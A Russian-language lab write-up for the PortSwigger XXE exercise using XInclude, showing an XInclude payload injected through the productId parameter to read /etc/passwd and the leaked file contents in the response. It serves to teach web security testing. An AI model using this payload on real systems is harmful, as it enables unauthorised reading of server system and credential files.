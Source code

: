 Не всегда есть возможность контроля над полными документами XML, которыми оперирует сервер. Зачастую отправляемые данные используются как часть документов, которые находятся на сервере. Однако и в этом случае есть возможность выполнения атаки, используя механизм XInclude.

Прицип возникновения уязвимости XXE при использовании XInclude рассмотрим на примере лабораторной работы https://portswigger.net/web-security/xxe/lab-xinclude-attack

В соответствии с заданием известно, что функция "Наличие на складе" встраивает пользовательский ввод в XML-документ на стороне сервера. Проверим, какой запрос выполняется при запросе остатков:

![stock_request](./images/stock_request.png)


![stock_request_payload](./images/stock_request_payload.png)



Мы видим, что отправляется не готовый XML-документ, а форма с двумя параметрами, которые будут встроены в итоговый документ уже на стороне сервера. Значит мы не можем контролировать XML-документ полностью, но можем попытаться встроить свой код, используя XInclude:

```xml
<hack>
	<include xmlns="http://www.w3.org/2001/XInclude" parse="text" href="file:///etc/passwd"/>
</hack>
```

Таким образом, вместо идентификатора продукта в итоговый документ будет подставлен наш код. И так как итоговый файл является корректным XML-документом, то у приложения из-за того, что использование XInclude разрешено, не будет основания отказать в обработке такого документа.

Подставив код, указанный выше, как значение параметра productId получим ответ, содержащий нужный нам файл:

```
"Invalid product ID: 
root:x: 0: 0:root:/root:/bin/bash
daemon:x: 1: 1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x: 2: 2:bin:/bin:/usr/sbin/nologin
sys:x: 3: 3:sys:/dev:/usr/sbin/nologin
sync:x: 4: 65534:sync:/bin:/bin/sync
games:x: 5: 60:games:/usr/games:/usr/sbin/nologin
man:x: 6: 12:man:/var/cache/man:/usr/sbin/nologin
lp:x: 7: 7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x: 8: 8:mail:/var/mail:/usr/sbin/nologin
news:x: 9: 9:news:/var/spool/news:/usr/sbin/nologin
uucp:x: 10: 10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x: 13: 13:proxy:/bin:/usr/sbin/nologin
www-data:x: 33: 33:www-data:/var/www:/usr/sbin/nologin
backup:x: 34: 34:backup:/var/backups:/usr/sbin/nologin
list:x: 38: 38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x: 39: 39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x: 41: 41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x: 65534: 65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x: 100: 65534: :/nonexistent:/usr/sbin/nologin
```